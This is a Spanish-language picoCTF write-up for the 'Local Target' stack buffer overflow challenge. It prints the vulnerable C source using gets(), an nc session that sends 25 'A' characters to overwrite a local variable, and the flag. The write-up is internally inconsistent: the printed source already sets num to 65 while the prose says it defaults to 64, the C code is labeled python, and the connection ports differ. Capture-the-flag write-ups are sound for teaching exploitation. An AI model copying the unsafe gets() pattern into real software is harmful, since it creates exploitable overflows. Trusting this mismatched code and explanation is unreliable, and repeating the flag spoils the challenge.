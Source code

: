 
# Local Target

## Descripcion
Smash the stackCan you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/517/local-target). You can view source [here](https://artifacts.picoctf.net/c/517/local-target.c). And connect with it using:`nc saturn.picoctf.net 57408`
## Pistas
1. Do anything you can to change `num`.
2. When you change `num`, view the value as hexadecimal.
## Solucion
La pista es que tenemos que cambiar el valor de num. Se nos da un codigo binario y uno fuente:
```python
#include <stdio.h>
#include <stdlib.h>



int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 65;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}

```
En el codigo vemos que esta buscando que la variable num sea igual a 65 pero por defaul es igual a 64.
Al correr el codigo nos pide un string el cual lo convierte en un char. esto se consigue con un gets() el cual puede ser desbordado. 

Al desbordarlo me di cuenta que el limite estaba masomenos entre 20-40. segui intentando hasta hallar que el error de segmentacion estaba exactamente en el 25. entonces al saber esto le inyecte 25 caracteres de tipo a. lo cual cambio el num al 97. lo cual es codigo ascii para la letra a. Ocupabamos que el num fuera de valor 65 entonces busque el valor de 65 en el ASCII lo cual me dio la letra 'A'. le inyecte 25 A y me dio la bandera. 
```bash()
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 52661        
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
```
## Bandera

picoCTF{l0c4l5_1n_5c0p3_fee8ef05}

## Notas adicionales

| comando | descripcion |
| --- | --- |

## Referencias
